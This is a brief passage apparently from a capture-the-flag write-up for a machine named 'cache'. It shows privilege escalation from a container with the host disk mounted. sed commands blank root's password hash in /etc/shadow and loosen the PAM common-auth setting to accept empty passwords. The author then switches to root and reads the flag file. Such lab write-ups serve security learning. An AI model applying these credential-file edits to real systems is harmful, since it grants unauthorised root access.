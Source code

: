 To log in as root I can just null out the root password with the following:

```
root@697e85ba9d8a:/mnt/pwn/etc# sed -i s/root:.*:18178:0:99999:7:::/root::18178:0:99999:7:::/ shadow
root@f8e7727da260:/mnt/pwn/etc/pam.d# sed -i s/nullok_secure/nullok/ common-auth
luffy@cache:~$ su
root@cache:/home/luffy# id
uid=0(root) gid=0(root) groups=0(root)
root@cache:/home/luffy# cat /root/root.txt
61673a57f540ad2350f46e78e6c4b8a1
```